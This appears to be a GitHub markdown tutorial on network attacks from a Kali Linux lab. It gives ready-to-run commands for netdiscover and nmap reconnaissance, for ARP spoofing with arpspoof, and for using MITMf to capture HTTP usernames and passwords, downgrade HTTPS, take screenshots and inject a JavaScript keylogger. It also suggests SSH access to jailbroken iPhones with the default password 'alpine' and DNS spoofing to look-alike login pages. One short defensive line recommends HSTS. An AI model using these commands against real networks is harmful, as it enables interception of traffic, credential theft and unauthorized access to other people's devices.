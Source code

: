 # Information Gathering

## Content
1. [Discovering Connected devices](#discovering-connected-devices)
2. [Network Mapping (NMAP/ ZENMAP)](#network-mapping)
3. [Man In The Middle](#man-in-the-middle)
	1. [ARP Poisoning](#arp-poisoning)
	2. [ARP Spoofing](#arp-spoofing)
		1. [Installing MITMF](#installing-mitmf)
		2. [Bypassing HTTPS](#bypassing-https)
	3. [Keyloggers, Screenshots, etc](#other-use-cases)


### Discovering Connected devices

In this we would search for the devices that are connected to the same network. This would help in attacking those devices. So this would be more fruitful, once access has been gained to the desired network.

```shell
root@kali:~/Desktop/information-gathering# netdiscover -r 10.0.2.1/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                    
                                                                                                                                                  
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor                                                                                 
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor                                                                                 
 10.0.2.3        08:00:27:85:e0:96      1      60  PCS Systemtechnik GmbH                                                                         
 10.0.2.4        08:00:27:04:18:04      1      60  PCS Systemtechnik GmbH                                                                         
```
where `-r 10.0.2.1/24` signifies the range of IPs that I'm looking for in the subnet. 

> Please note that you can search for devices in the subnet that you're present.


### Network Mapping
Slower than `netdiscover` but gives a lot more information - like OS, applications running, open ports, connected clients etc. 

To perform network mapping you can run `zenmap` which is a graphical user interface for nmap. This allows for much more detailed summary of the devices connected to the network. Nmap is very vast subject in itself. You can refer [this PDF](http://wiki.informationsecurity.club/lib/exe/fetch.php/книги:nmap_network_scanning.pdf) for more information.

For example, if I do a `Quick Scan Plus` i'll be able to see the ports that are opne on the devices that are connectedo to the same network. Then For example, you see that iphone is connected to the network, and the `SSH` port is open that would translate to the iphone being jailbroken. In such a situation, you can SSH into the iphone, with `ssh root@ip.address` with the password being `alpine`. Also, if you see that there are several PCs or computers with SSH port open, you can try to ssh into them, and if you know the password or if the password is not set, then voila. You're in!

### Man In The Middle

In cryptography and computer security, a man-in-the-middle attack (MITM) is an attack where the attacker secretly relays and possibly alters the communication between two parties who believe they are directly communicating with each other. One example of a MITM is active eavesdropping, in which the attacker makes independent connections with the victims and relays messages between them to make them believe they are talking directly to each other over a private connection, when in fact the entire conversation is controlled by the attacker

#### Arp poisoning

Address Resolution Protocol (ARP). Maps the IP address to the MAC address. So in this case, the `Malcious Machine` would simply exploit the ARP protocol to tell the router that "I am the `USER A`" and to USER A, it would tell that "I am the `ROUTER`". 

![ARP Poisoning Example](./Resources/01-arp-poisoning-example.png)

Hence, the requests from the `USER A` would be passed to the `Malcious Machine` which would forward the requests to the `Router`. Any responses from the `Router` would be sent to the `Malcious Machine`, which would subsequently send these responses to `User A`.

* ARP is not secure because
	* clients `accept responses` even when no requests are sent, 
	* moreover clients trust without any form of `verification`

#### Arp Spoofing

So to perform this we would execute the following two commands.

```shell
root@kali:~/Desktop/information-gathering# arpspoof -i eth0 -t 10.0.2.4 10.0.2.1
```
This command would tell the target machine that I'm the router.

```shell
root@kali:~/Desktop/information-gathering# arpspoof -i eth0 -t 10.0.2.a 10.0.2.4
```
This command would tell the router that I'm the target machine.

If you have access to the target machine, while experimenting, you can run the `arp -a` command before and after execution of the previous command to see the changes in the mac addresses yourself.

![Before and After](./Resources/02-Before-after.png)

##### Installing MITMF

**Installation** MITMf relies on a **LOT** of external libraries therefore it is highly recommended you use [virtualenvs](http://docs.python-guide.org/en/latest/dev/virtualenvs/) to install the framework, this avoids permission issues and conflicts with your system site packages (especially on Kali Linux).

Before starting the installation process:

*   On Arch Linux:

    `pacman -S python2-setuptools libnetfilter_queue libpcap libjpeg-turbo capstone`
    

*   On Debian and derivatives (e.g Ubuntu, Kali Linux etc...)

    ```
    apt-get install python-dev python-setuptools libpcap0.8-dev libnetfilter-queue-dev libssl-dev libjpeg-dev libxml2-dev libxslt1-dev libcapstone3 libcapstone-dev libffi-dev file
    ```
   

*   Install virtualenvwrapper:

    `pip install virtualenvwrapper`
    

*   Edit your `.bashrc` or `.zshrc` file to source the virtualenvwrapper.sh script: (This is for Kali Linux)

    `source /usr/local/bin/virtualenvwrapper.sh`
    

**The location of this script may vary depending on your Linux distro**

You can find yours by running `find / -name virtualenvwrapper.sh`

*   Restart your terminal or run:

    `source /usr/local/bin/virtualenvwrapper.sh`
    

*   Create your virtualenv:

    `mkvirtualenv MITMf -p /usr/bin/python2.7`
    

*   Clone the MITMf repository:

    `git clone https://github.com/byt3bl33d3r/MITMf`
    

*   cd into the directory, initialize and clone the repos submodules:

    `cd MITMf && git submodule init && git submodule update --recursive`
    

*   Install the dependencies:

    `pip install -r requirements.txt`
    

*   You're ready to rock!

    `python mitmf.py --help`
    
    Then you can start the capturing of data using
    
    ```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0
    ```

![Running MITMF](./Resources/03-Running-mitmf.png)

And while visiting `HTTP` sites you can capture the content of the user name and password like this. 

![Capturing Username and Password](./Resources/04-username-password.png)

> Note that this method would work only with `HTTP` sites. In the next section we will learn about how to bypass `HTTPS` traffic

##### Bypassing HTTPS

```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --hsts
```
The problem however is that most websites now a days uses the [HTTP Strict Transport Security](http://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security#Applicability) which prevents the bypassing of the https security which the MITMF framework tries to do by downgrading the `HTTPS` connection to `HTTP` However, there is a workaround that involves the DNS spoofing attack. In this method, you would redirect the user to a website that looks like the website that the user often goes to to enter their username and password. 

DNS spoofing can be enabled easily by editing the `mitmf.conf` file to redirect the traffic.

Hence, when trying to prevent this type of attack make sure that you have `HSTS` enabled for your website and also make the user aware of such attacks, especially in offices and work places.

#### Other Use Cases

* Taking screenshots 
```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --screen
    ```
*  Injecting Key Logger
```shell
    root@kali:~/MITMf# python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --jskeylogger
    ```
    
    
There are several more, you can run `python mitmf.py` to get the help